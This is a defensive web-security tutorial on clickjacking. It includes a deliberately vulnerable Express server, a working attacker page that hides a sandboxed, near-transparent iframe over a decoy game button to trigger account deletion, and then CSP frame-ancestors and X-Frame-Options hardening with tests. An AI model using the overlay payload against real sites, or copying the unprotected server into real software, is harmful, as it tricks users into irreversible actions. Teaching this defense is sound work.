

# 🖼️ Clickjacking & UI Redressing Defense

> Defeating invisible iframe overlays, pointer hijacking, and modern framing attacks with CSP `frame-ancestors`.

---

## 1. 🎯 Overview & Intuitive Mental Model

### The Production Hook
Clickjacking (also known as **UI Redressing**) is an interface-layer deception attack. An attacker lures an authenticated user to an innocuous-looking website (such as an online mini-game or survey). While the user believes they are clicking a button labeled *"Click to win a gift card"*, they are actually clicking an invisible, 99.9% transparent iframe floating directly above the button—initiating an irreversible state-changing action like deleting their account, authorizing a payment, or changing their password.

Because the browser's native cursor dispatch logic simply routes physical clicks to the topmost visual DOM element at that `(X, Y)` coordinate, an application without framing defenses is completely defenceless.

### 🧠 The Fun Analogy: The "Decoy Carbon Paper Scam"
Imagine a fraudulent notary asks you to sign an autograph on a sheet of clear glass. Unbeknownst to you, underneath that clear sheet of glass is a stack of official government property transfer deeds. You press your pen down onto the glass, but the mechanical pressure stamps your signature directly onto the deed of sale underneath.

- **Vulnerable App:** An open glass desk where anyone can slip their papers underneath your pen.
- **`frame-ancestors 'none'`:** A physical steel safe that refuses to be placed inside any other desk or display case. If an unauthorized foreign entity attempts to load your page inside their window, the browser sandbox violently shatters the frame and blanks the screen.

### Severity & Impact
- **OWASP Category:** [A01:2021 – Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/), [A05:2021 – Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)
- **Common Weakness Enumeration (CWE):** [CWE-1021: Improper Restriction of Rendered UI Layers or Frames](https://cwe.mitre.org/data/definitions/1021.html)
- **Blast Radius:** Unauthorized state mutations, social media follows/likes, account setting modifications, wire transfers, and permission grants.

---

## 2. 🎨 Interactive Visual Architecture



> 💡 **Visual Inspection Tip:** In Chrome DevTools, inspect the elements on an embedded page. Look for `<iframe>` tags with CSS styles like `opacity: 0`, `position: absolute`, or `pointer-events: auto`. To inspect whether your own site is protected, look at the **Response Headers** in the **Network** tab for `Content-Security-Policy: frame-ancestors ...`.

---

## 3. 💥 Real-World Exploit Walkthrough

### Scenario: The One-Click Account Deletion Trap
An enterprise SaaS platform allows users to delete projects with a single click. The backend team forgot to configure anti-framing headers.

#### ❌ Vulnerable Server Configuration (Node.js / Express)
```typescript
// vulnerable-settings-server.ts
import express from 'express';
import cookieParser from 'cookie-parser';

const app = express();
app.use(cookieParser());

// ⚠️ CATASTROPHIC OMISSION: No CSP frame-ancestors, No X-Frame-Options!
// Legacy developers attempted to use client-side frame-busting JS instead of HTTP headers.

app.get('/settings/delete-account', (req, res) => {
  // Client-side framebusting alone is EASILY BYPASSED!
  res.send(`
    <!DOCTYPE html>
    <html>
      <head>
        <title>Account Settings</title>
        <script>
          // ⚠️ Fragile Frame-Busting: Ineffective against HTML5 sandbox attributes!
          if (top !== self) {
            top.location = self.location;
          }
        </script>
      </head>
      <body>
        <h1>Delete Account</h1>
        <p>Warning: This action is permanent.</p>
        <form action="/api/account/delete" method="POST">
          <button id="delete-btn" style="width: 200px; height: 50px; background: red; color: white;">
            CONFIRM DELETE ACCOUNT
          </button>
        </form>
      </body>
    </html>
  `);
});

app.listen(3000);
```

#### 💥 The Attacker's Exploit Payload
The attacker creates `https://evil-hacker.com/game.html` and bypasses the naive JavaScript frame-busting script using the HTML5 `sandbox` attribute:
```html
<!DOCTYPE html>
<html>
<head>
  <title>Whack-a-Mole Champion!</title>
  <style>
    body {
      margin: 0;
      overflow: hidden;
      font-family: sans-serif;
    }
    .decoy-layer {
      position: absolute;
      top: 100px;
      left: 100px;
      z-index: 1;
    }
    .fun-btn {
      width: 200px;
      height: 50px;
      background: #28a745;
      color: white;
      font-size: 18px;
      border: none;
      border-radius: 6px;
      cursor: pointer;
    }
    /* The Invisible Overlay */
    .target-iframe {
      position: absolute;
      top: 100px;
      left: 100px;
      width: 200px;
      height: 50px;
      opacity: 0.0001; /* Invisible to human eye */
      z-index: 10;     /* Floats directly above the green button */
      border: none;
    }
  </style>
</head>
<body>
  <div class="decoy-layer">
    <h2>Click the green button to start the game!</h2>
    <button class="fun-btn">PLAY GAME NOW</button>
  </div>

  <!-- 
    Attacker embeds vulnerable app:
    sandbox="allow-scripts allow-forms" allows the form to submit,
    but OMITS allow-top-navigation, which NEUTRALIZES the victim's top.location frame-busting script!
  -->
  <iframe 
    class="target-iframe" 
    src="http://localhost:3000/settings/delete-account"
    sandbox="allow-scripts allow-forms">
  </iframe>
</body>
</html>
```

### Browser Behavior Breakdown
1. **The Victim Enters:** The user visits `evil-hacker.com` while authenticated to `http://localhost:3000`.
2. **Frame-Busting Neutralized:** The iframe loads. The target page's script executes `top.location = self.location`, but the browser blocks it because the `sandbox` attribute did not include `allow-top-navigation`.
3. **Layer Alignment:** The attacker positions the target page's `#delete-btn` exactly over the decoy button.
4. **Physical Dispatch:** The victim clicks "PLAY GAME NOW". The browser compositor routes the pointer click to the top DOM layer (the iframe's delete button), deleting the victim's account!

---

## 4. 🛡️ Resolution & Defense-in-Depth

### Layer 1: Content Security Policy `frame-ancestors` (The Gold Standard)
The modern, standardized defense against all clickjacking and framing attacks is the CSP `frame-ancestors` directive:
- `frame-ancestors 'none'`: Completely forbids any site (including the same origin) from framing this page.
- `frame-ancestors 'self'`: Permits framing only by pages on the exact same scheme, host, and port.
- `frame-ancestors 'self' https://trusted-partner.com`: Permits trusted enterprise partners to embed specific widgets.

### Layer 2: Legacy Header Fallback (`X-Frame-Options`)
For legacy browsers that do not support CSP Level 2/3, provide the legacy header:
- `X-Frame-Options: DENY` (Matches `frame-ancestors 'none'`)
- `X-Frame-Options: SAMEORIGIN` (Matches `frame-ancestors 'self'`)

### Layer 3: SameSite Cookie Enforcement
Configuring all session cookies with `SameSite=Lax` or `SameSite=Strict` guarantees that even if a page is somehow framed, the victim's authentication cookie will **not** be attached to cross-site requests or form submissions inside the frame!

### Production Hardened Server (Node.js / Express + Helmet)
```typescript
// hardened-antiframing.ts - PRODUCTION-READY CLICKJACKING MITIGATION
import express from 'express';
import helmet from 'helmet';

const app = express();

// 🛡️ Enforce strict framing boundaries at the HTTP header level
app.use(
  helmet({
    contentSecurityPolicy: {
      directives: {
        defaultSrc: ["'self'"],
        // PRIMARY DEFENSE: Refuse all embedding
        frameAncestors: ["'none'"],
      },
    },
    // BACKWARD COMPATIBILITY: Legacy header for older user agents
    frameguard: {
      action: 'deny',
    },
  })
);

app.get('/settings/delete-account', (req, res) => {
  res.send(`
    <!DOCTYPE html>
    <html lang="en">
      <head>
        <meta charset="UTF-8">
        <title>Account Settings</title>
      </head>
      <body>
        <h1>Delete Account</h1>
        <form action="/api/account/delete" method="POST">
          <button id="delete-btn">CONFIRM DELETE</button>
        </form>
      </body>
    </html>
  `);
});

export default app;
```

---

## 5. 🧪 Hands-On Verification & Lab

### Browser DevTools Verification
1. Create a simple test file `test-embed.html`:
   ```html
   <iframe src="http://localhost:3000/settings/delete-account"></iframe>
   ```
2. Open `test-embed.html` in Chrome.
3. Open DevTools Console (`F12`).
4. Verify the browser blocks the embed with this error:
   ```text
   Refused to frame 'http://localhost:3000/' because an ancestor violates
   the following Content Security Policy directive: "frame-ancestors 'none'".
   ```

### Automated Integration Test (Supertest)
```typescript
// clickjacking.test.ts
import request from 'supertest';
import app from './hardened-antiframing';

describe('Clickjacking & Framing Defense Suite', () => {
  it('includes Content-Security-Policy frame-ancestors none', async () => {
    const res = await request(app).get('/settings/delete-account');

    const csp = res.headers['content-security-policy'];
    expect(csp).toBeDefined();
    expect(csp).toContain("frame-ancestors 'none'");
  });

  it('includes legacy X-Frame-Options DENY header', async () => {
    const res = await request(app).get('/settings/delete-account');

    expect(res.headers['x-frame-options']).toEqual('DENY');
  });
});
```

---

## 6. 📋 Code Review Checklist

- [ ] **`frame-ancestors 'none'` by Default:** Does every authenticated or state-changing page return `Content-Security-Policy: frame-ancestors 'none'`?
- [ ] **X-Frame-Options Present:** Is `X-Frame-Options: DENY` maintained as a fallback for older enterprise browsers?
- [ ] **No Client-Side JS Only:** Are framing protections enforced via HTTP response headers and NOT relying solely on JavaScript frame-busting?
- [ ] **SameSite Cookies:** Are session cookies configured with `SameSite=Lax` or `SameSite=Strict` as a secondary defense layer?
- [ ] **Granular Partner Embeds:** If third-party embedding is required (e.g., checkout widget), are allowed parent origins explicitly enumerated (e.g., `frame-ancestors https://partner.com`)?
